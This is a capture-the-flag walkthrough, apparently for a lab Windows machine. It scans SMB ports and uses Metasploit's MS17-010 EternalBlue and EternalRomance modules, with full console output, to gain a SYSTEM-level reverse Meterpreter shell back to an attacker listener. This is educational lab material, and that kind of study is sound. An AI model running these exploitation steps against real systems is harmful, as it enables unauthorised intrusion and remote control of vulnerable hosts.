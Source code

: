 
# Information Gathering

## Nmap
Running an Nmap scan.

```console
root@kali:~# nmap 10.10.10.4
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-17 03:18 EDT
Nmap scan report for 10.10.10.4
Host is up (0.21s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE
139/tcp  open   netbios-ssn
445/tcp  open   microsoft-ds
3389/tcp closed ms-wbt-server

```
From the above output we can see that ports, **139** and **445** are open.

Since 445 is open let's try to check if it's vulnerable to Eternalblue.

```console
msf5 > search eternalblue

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
   0  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   1  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
   2  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   3  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
```
Let's go ahead and check if the box is vulnerable to Eternal Blue, we use `auxiliary/scanner/smb/smb_ms17_010`.

Set value of RHOSTS to 10.10.10.4 and run the module

```console
msf5 auxiliary(scanner/smb/smb_ms17_010) > run

[+] 10.10.10.4:445        - Host is likely VULNERABLE to MS17-010! - Windows 5.1
[*] 10.10.10.4:445        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Here we see it is likely vulnerable to eternal blue. This module exploits the vulnerability found in Server Message Block V1 running on port 445. This version of unpatched SMB mishandles the crafted packets sent by the attacker, thus allowing Remote Code Execution, let's try exploiting it.

[//]:![FTP](./Lame/ftp.png)
[//]:# ( **Figure 1:** FTP Anonymous Login Possible)

# Exploitation  

[//]:# (Google reveals that there's a metasploit module for the vulnerability. Going ahead and starting msfconsole and searching for samba.)

Using exploit `windows/smb/ms17_010_eternalblue` and setting RHOSTS 10.10.10.4

```console
msf5 exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.10.10.4       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs
```

Let's run the module now.

```console
[*] Started reverse TCP handler on 10.10.14.14:4444 
[*] 10.10.10.4:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.4:445        - Host is likely VULNERABLE to MS17-010! - Windows 5.1
[*] 10.10.10.4:445        - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.10.4:445 - Connecting to target for exploitation.
[+] 10.10.10.4:445 - Connection established for exploitation.
[+] 10.10.10.4:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.4:445 - CORE raw buffer dump (11 bytes)
[*] 10.10.10.4:445 - 0x00000000  57 69 6e 64 6f 77 73 20 35 2e 31                 Windows 5.1     
[+] 10.10.10.4:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.4:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.4:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.4:445 - Starting non-paged pool grooming
[+] 10.10.10.4:445 - Sending SMBv2 buffers
[+] 10.10.10.4:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.4:445 - Sending final SMBv2 buffers.
[*] 10.10.10.4:445 - Sending last fragment of exploit packet!
[*] 10.10.10.4:445 - Receiving response from exploit packet
[+] 10.10.10.4:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.4:445 - Sending egg to corrupted connection.
[*] 10.10.10.4:445 - Triggering free of corrupted buffer.
[-] 10.10.10.4:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.10.10.4:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.10.10.4:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```
Exploit failed. This could be because of the fact that Eternalblue exploit could be unstable sometimes.

We try `exploit/windows/smb/ms17_010_psexec` EternalRomance SMB Vuln. This vulnerability is more reliable than the Eternalblue(EternalBlue in 90% cases causes BSOD), this vulnerability exploits a bug in 'named pipes'.
Use the module, set rhosts to the IP of the box and run.

```console
msf5 exploit(windows/smb/ms17_010_psexec) > run

[*] Started reverse TCP handler on 10.10.14.14:4444 
[*] 10.10.10.4:445 - Target OS: Windows 5.1
[*] 10.10.10.4:445 - Filling barrel with fish... done
[*] 10.10.10.4:445 - <---------------- | Entering Danger Zone | ---------------->
[*] 10.10.10.4:445 -    [*] Preparing dynamite...
[*] 10.10.10.4:445 -            [*] Trying stick 1 (x86)...Boom!
[*] 10.10.10.4:445 -    [+] Successfully Leaked Transaction!
[*] 10.10.10.4:445 -    [+] Successfully caught Fish-in-a-barrel
[*] 10.10.10.4:445 - <---------------- | Leaving Danger Zone | ---------------->
[*] 10.10.10.4:445 - Reading from CONNECTION struct at: 0x8230a598
[*] 10.10.10.4:445 - Built a write-what-where primitive...
[+] 10.10.10.4:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.10.10.4:445 - Selecting native target
[*] 10.10.10.4:445 - Uploading payload... jjcqgneP.exe
[*] 10.10.10.4:445 - Created \jjcqgneP.exe...
[+] 10.10.10.4:445 - Service started successfully...
[*] Sending stage (180291 bytes) to 10.10.10.4
[*] 10.10.10.4:445 - Deleting \jjcqgneP.exe...
[*] Meterpreter session 1 opened (10.10.14.14:4444 -> 10.10.10.4:1036) at 2020-03-17 03:48:58 -0400

meterpreter > 
```

Got a session!

## User Flag

In order to get the user flag, we change the directory to the user Desktop 'john' and we simply need to use `cat` to read the contents of user.txt
```
root@kali:~$ cat user.txt

```

## Root Flag

There's no need to privesc this box as we could easily change directory to the Administrator Desktop folder and `cat` the root.txt
```
root@kali:~$ cat root.txt

```

# Conclusion
Overall the box was pretty easy as the exploits were straight forward and there was no need for a privesc because of the fact that EternalRomance is a kernel level exploit and we would be owning the root from the successfull exploit.

